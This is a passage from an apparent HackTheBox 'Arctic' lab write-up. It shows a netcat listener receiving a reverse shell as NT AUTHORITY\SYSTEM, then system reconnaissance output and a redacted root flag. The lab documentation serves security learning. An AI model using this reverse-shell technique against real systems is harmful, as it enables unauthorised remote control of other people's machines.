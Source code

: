 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|15:01:36(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49505
[...]
C:\\Windows\\system32>whoami && ipconfig /all
nt authority\\system

Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-F5-5E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
[...]
```

I'm now `NT AUTHORITY\SYSTEM`! :D

## Rooted

**root.txt:**
```shell
C:\\Users\\Administrator\\Desktop>type root.txt
{Redacted}
```
